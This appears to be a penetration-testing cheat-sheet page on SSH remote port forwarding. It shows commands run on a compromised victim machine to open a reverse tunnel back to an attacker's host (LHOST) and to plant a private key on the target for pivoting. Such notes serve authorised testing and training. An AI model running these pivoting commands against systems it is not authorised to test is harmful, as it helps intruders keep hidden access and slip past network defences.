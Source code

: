 # Remote Forwarding

## Theory

Reverse connections are very possible with the SSH client (and indeed may be preferable if you have a shell on the compromised server, but not SSH access). They are, however, riskier as you inherently must access your attacking machine from the target -- be it by using credentials, or preferably a key based system.

Type of Remote Forwarding -> Reverse Connection

## Practice

For both cases, we need an SSH server on our computer:

```bash
# Enable SSH service on your computer:
service ssh start
systemctl start ssh
```

### Method #1

On our machine, we enable the SSH service and, since we are going to open an SSH connection from a compromised server to our own machine, it is important to create a dedicated account without a shell to prevent hacking by a company administrator or, potentially, a cybercriminal who has also compromised the server:

```bash
# Create a user without shell with a random password:
sudo useradd sshpivot --no-create-home --shell /bin/false
sudo passwd sshpivot # Set any password
```

{% hint style="warning" %}
PS: You must add **/bin/false** in `/etc/shells`, otherwise the connection will be denied.
{% endhint %}

We run this on the victim machine:

```bash
ssh -R 4646:<VICTIM IP/PIVOT IP>:<RPORT> sshpivot@<LHOST> -fNT
ssh -R 4646:<VICTIM IP/PIVOT IP>:<RPORT> sshpivot@<LHOST> -N
# VICTIM IP will be 127.0.0.1, but if we want to see a port/service of another machine that is visible from the compromised victim machine, then we indicate the PIVOT IP.
```

### Method #2

Before we can make a reverse connection safely, there are a few steps we need to take. First, generate a new set of SSH keys and store them somewhere safe (`ssh-keygen`):

```
cd ~
ssh-keygen
mv id_rsa.pub authorized_keys
```

In the authorized\_keys file, add the following line:

```bash
command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty
```

![](../../../.gitbook/assets/authozired\_keys\_port\_forward.png)

Finally, **transfer the private key to the target box**. With the key transferred, we can then connect back with a reverse port forward using the following command:

```bash
ssh -R <LPORT>:<TARGET_IP>:<TARGET_PORT> <USER>@<LHOST> -i id_rsa -fN
```
